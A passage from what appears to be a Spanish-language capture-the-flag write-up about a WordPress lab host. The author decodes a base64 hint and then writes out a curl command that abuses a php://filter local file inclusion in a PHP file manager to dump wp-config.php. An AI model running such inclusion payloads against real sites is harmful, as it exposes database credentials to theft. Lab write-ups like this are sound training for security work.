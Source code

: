 Todo parece normal hasta que ves comentada la tremenda cadena en base64, decodificamooos y.

*That password alone won't help you! Hashcat says rules are rules*

Y bueno, en lo absoluto entendí y por ahora la dejaré, así que pase a descargar otros archivos de wordpress como el de su configuración.

```shell
curl 'http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php' | base64 -d > wp-config.php
```

![](/assets/img/posts/20240313-7.png)
